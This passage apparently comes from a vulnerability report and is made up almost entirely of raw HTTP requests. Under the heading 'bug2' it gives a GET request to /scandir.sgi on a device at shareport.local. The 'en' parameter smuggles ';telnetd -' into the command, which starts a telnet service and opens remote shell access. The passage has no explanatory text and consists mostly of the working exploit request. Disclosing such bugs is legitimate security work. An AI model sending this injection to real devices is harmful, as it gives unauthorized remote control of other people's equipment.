 ```http

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: none

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 21
```



#### bug2

```http
GET /scandir.sgi?action=umnt&en=;telnetd -&path=aaa&where=bbb HTTP/1.0

Host: shareport.local

Cookie: uid=unUFIr9ia

Cache-Control: max-age=0

Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: "Linux"

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: none

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Accept-Encoding: gzip, deflate, br

```